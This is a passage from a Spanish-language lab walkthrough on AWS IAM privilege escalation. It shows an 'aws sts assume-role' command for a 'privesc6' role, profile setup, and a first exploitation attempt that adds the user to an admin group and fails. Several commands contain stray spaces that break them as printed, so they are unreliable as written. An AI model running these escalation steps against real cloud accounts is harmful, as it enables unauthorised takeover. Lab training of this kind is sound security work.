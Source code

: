 Configurar Credenciales de acceso, ya sea creandolas desde la web como en los casos anteriores o desde un usuario administrador el siguiente comando:

{% code overflow="wrap" %}
```
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc6- UpdateLoginProfile-role --role-session-name privesc6
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Luego copiar el Access Key y el SecretAccessKey en `aws configure --profile privesc6`

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

### Explotación

Si se intenta agregar el usuario **privesc6** directamente al grupo de administradores local, generar un error:

{% code overflow="wrap" %}
```
aws iam add-user-to-group --group-name Group-Root- Spartan --user-name privesc6-UpdateLoginProfile-user -- profile privesc6
```
{% endcode %}
